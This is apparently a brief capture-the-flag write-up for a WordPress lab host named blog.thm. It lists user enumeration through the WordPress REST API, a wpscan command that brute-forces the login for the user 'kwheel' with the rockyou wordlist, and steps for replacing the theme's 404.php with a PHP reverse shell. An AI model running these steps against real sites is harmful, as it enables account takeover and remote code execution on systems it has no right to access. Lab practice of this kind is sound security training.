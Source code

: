 Blog CMS

# wpscan

Find Users with built in API
```txt
http://blog.thm/wp-json/wp/v2/users
```


bruteforce login
```bash
wpscan --url http://blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```


Appearance > Edit > Themes
1. 404.php
2. replace with php reverse shell

